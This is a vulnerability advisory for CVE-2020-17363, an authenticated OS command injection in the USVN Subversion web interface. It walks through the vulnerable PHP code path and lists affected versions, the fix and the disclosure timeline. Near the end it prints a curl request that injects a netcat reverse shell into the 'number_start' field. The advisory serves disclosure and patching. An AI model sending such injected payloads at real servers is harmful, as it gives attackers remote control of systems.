

# [2020-17363] USVN OS Command injection

## Description

User-Friendly USVN is a web interface written in PHP used to configure Subversion repositories.

We found an OS command injection inside the Timeline module that can be used by an authenticated user to execute arbitrary command over the system.

**Threat**

In the case where an attacker has access to a USVN repository, he would be able to remotely take control over the system.

**Expectation**

User inputs have to be filtered and controlled to verify their type before being used by the application.

## Vulnerability records

**CVE ID**: CVE-2020-17363

**Access Vector**: Network

**Security Risk**: Critical

**Vulnerability**: CWE-78

**CVSS Base Score**: 9.9

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

## Details


While analyzing the source code of the application, we noticed a PHP function named `lasthundredrequestAction` used to print the last hundred commit made to a project:

```
public function lasthundredrequestAction()
{
  [...]
  $this->_project = $project;
  $this->view->project = $this->_project;
  $SVN = new USVN_SVN($this->_project->name);
  try {
  	$number_start = $project = $this->getRequest()->getParam('number_start');
  	$number_end = $project = $this->getRequest()->getParam('number_end');
  	$this->view->number_start = $number_start;
  	$this->view->number_end = $number_end;
  	$number_end = $this->convertDate($number_end);
  	$number_start = $this->convertDate($number_start);
  	$this->view->log = $SVN->log(100, $number_start, $number_end);
  	[...]
```

Two user arguments named `number_start` and `number_end` are then given to the `convertDate` and `log` functions:

  * The `convertDate` function just explode the given parameters:

    ```
    protected function convertDate($number)
    {
      if (strstr($number, '/') != FALSE) {
        $split = explode('/', $number);
        $jour = $split[0];
        $mois = $split[1];
        $annee = $split[2];
        return '{'.$annee.$mois.$jour.'}';
      }
      return $number;
    }
    ```

  * The `log` function just prepare the command arguments that will be executed:

  ```
  public static function log($repository, $limit = 0, $start = 0, $end = 0)
  {
    $limit = "--limit $limit";
    [...]
  	if ($start){
  		$revision = "-r $start";
  		if ($end){
  			$revision.=":$end";
  	[...]
  	$message = USVN_ConsoleUtils::runCmdCaptureMessageUnsafe(USVN_SVNUtils::svnCommand("log --xml $revision $limit $repository"), $return);
  ```

The previous prepared arguments are finally given to the `runCmdCaptureMessageUnsafe` function that will execute the OS command:

```
static public function runCmdCaptureMessageUnsafe($command, &$return)
{
	USVN_ConsoleUtils::prepareLang();
	ob_start();
	passthru($command . " 2>&1", $return);
  [...]
```

So in order to exploit the vulnerability we can just submit the OS command in the `Start` or `End` field:

```
curl -X $'POST' -H $'Cookie: PHPSESSID=cf4d8ccb1ad95850a627b0eb0732712e' --data-binary $'number_start=01/01/2020$(nc 192.168.1.94 4444 -c bash)&number_end=&LastHundredRequest=Rechercher' $'http://192.168.1.94:8090/project/testProject/LastHundredRequest'
```

Here is a screenshot of the exploited vulnerability (using curl and netcat tools):




## Affected versions

- USVN versions < 1.0.8

## Solution

- Update to USVN >= 1.0.9

## Timeline (dd/mm/yyyy)

* 2020-05-07 Initial discovery.
* 2020-05-13 Report to the USVN security team
* 2020-05-18 USVN acknowledgement stating that the report is under review.
* 2020-05-18 Command injection fix published (http://www.usvn.info/2020/05/20/usvn-1.0.9).
* 2020-08-12 Disclosure.

## Credits

* Mickael KARATEKIN <mickael.karatekin -at- tnpconsultants.com>
